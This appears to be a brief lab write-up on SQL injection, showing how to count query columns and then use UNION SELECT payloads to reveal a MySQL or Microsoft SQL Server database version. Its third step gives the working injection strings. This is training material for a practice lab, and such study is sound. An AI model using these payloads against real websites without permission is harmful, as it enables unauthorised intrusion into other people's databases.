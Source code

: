 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="../Images/ps1.png" width="400" height="200">

## Step 2

Check in which column we can insert

<img src="../Images/ps2.png" width="400" height="200">

Here we are able to insert in both column

<img src="../Images/ps3.png" width="400" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="../Images/ps4.png" width="400" height="200">

And we have the answer

<img src="../Images/ps5.png" width="400" height="200">

---

